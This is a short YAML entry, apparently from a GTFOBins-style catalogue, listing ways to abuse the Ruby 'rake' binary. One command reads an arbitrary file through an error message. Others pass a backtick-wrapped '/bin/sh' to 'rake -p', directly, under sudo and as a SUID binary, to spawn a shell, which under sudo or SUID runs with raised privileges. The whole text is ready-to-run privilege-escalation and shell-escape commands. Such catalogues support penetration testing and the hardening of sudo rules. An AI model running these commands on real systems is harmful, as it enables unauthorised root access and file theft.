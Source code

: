 ```yaml
---
functions:
  file-read:
    - description: The file is actually parsed and the first wrong line is returned in an error message.
      code: |
        LFILE=file-to-read
        rake -f $LFILE
  shell:
    - code: rake -p '`/bin/sh 1>&0`'
  sudo:
    - code: sudo rake -p '`/bin/sh 1>&0`'
  limited-suid:
    - code: ./rake -p '`/bin/sh 1>&0`'
---
```


